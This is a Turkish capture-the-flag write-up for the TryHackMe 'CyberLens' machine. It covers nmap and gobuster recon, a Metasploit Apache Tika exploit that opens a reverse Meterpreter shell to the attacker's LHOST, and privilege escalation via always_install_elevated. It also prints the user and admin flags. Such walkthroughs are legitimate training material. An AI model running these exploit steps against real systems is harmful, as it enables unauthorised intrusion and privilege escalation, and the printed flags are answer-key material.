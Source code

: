 # CyberLens CTF

## 1.Adım Ping Taraması
```bash
ping Machine_IP
```
## 2.Adım Nmap Taraması
```bash
nmap --top-port 100 -sV Machine_IP
```
Nmap Sonucu:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 15:44 EDT
Nmap scan report for 10.10.147.226
Host is up (0.062s latency).
Not shown: 96 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## 3.Adım  SMB Protokolü İçin Script Taraması 
```bash
nmap --script="smb-vuln-*" Machine_IP
```
```bash
Çıktısı: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 15:46 EDT
Nmap scan report for cyberlens.thm (Machine_IP)
Host is up (0.061s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
```
## 4. Adım Hosts Dosyasını Güncelleme
/etc/hosts dosyasına makineyi ekledim.
```bash
sudo echo '10.10.147.226 cyberlens.thm' >> /etc/hosts
```
## 5. Adım Dizin Taraması
```bash
gobuster dir -u http://Machine_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
Sonuç:
```bash
/images               (Status: 301) [Size: 236] [--> http://Machine_IP/images/]
/Images               (Status: 301) [Size: 236] [--> http://Machine_IP/Images/]
/css                  (Status: 301) [Size: 233] [--> http://Machine_IP/css/]                                                                           
/js                   (Status: 301) [Size: 232] [--> http://Machine_IP/js/]                                                                            
/IMAGES               (Status: 301) [Size: 236] [--> http://Machine_IP/IMAGES/]                                                                        
```
## 6.Adım Apache Tika Exploit'i Kullanarak Sistem Erişimi
Dizinlerin birinde Apache Tika'nın versiyonunu belirledikten sonra, msfconsole kullanarak zaafiyeti bulup exploit ettim.
Exploiti Arama: 
```bash
msf6> search apache tika
```
Exploit Ayarları:
```bash
msf6>use 0
msf6 exploit(windows/http/apache_tika_jp2_jscript)>set LHOST <your tun0 IP>
set RHOST Machine_IP
set RPORT 61777
run
```
## 7. Adım Sisteme Erişim
Meterpreter geldi, shell alarak sisteme girdim ve user flag'ini yakaladım.
```bash
C:\Users\CyberLens\Desktop>type user.txt
THM{T1k4-CV3-f0r-7h3-w1n}
```
## 8. Adım Privilege Escalation (Root)
local_exploit_suggester modülü ile root olmak için uygun exploit'leri inceledim ve always_install_elevated exploit'ini kullandım.
```bash
msf6 exploit(windows/http/apache_tika_jp2_jscript) > search local_exploit_suggester
msf6 exploit(exploit(windows/http/apache_tika_jp2_jscript)) > use 0
msf6 post(multi/recon/local_exploit_suggester) > set session Session_ID
msf6 post(multi/recon/local_exploit_suggester) > run
```
```bash
msf6 post(multi/recon/local_exploit_suggester) > use windows/local/always_install_elevated
msf6 exploit(windows/local/always_install_elevated) > options
msf6 exploit(windows/local/always_install_elevated) > set session Sessıon_ID 
msf6 exploit(windows/local/always_install_elevated) > run
```
Sonuç:
```bash
meterpreter > shell
cd \Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type admin.txt
THM{3lev@t3D-4-pr1v35c!}
```
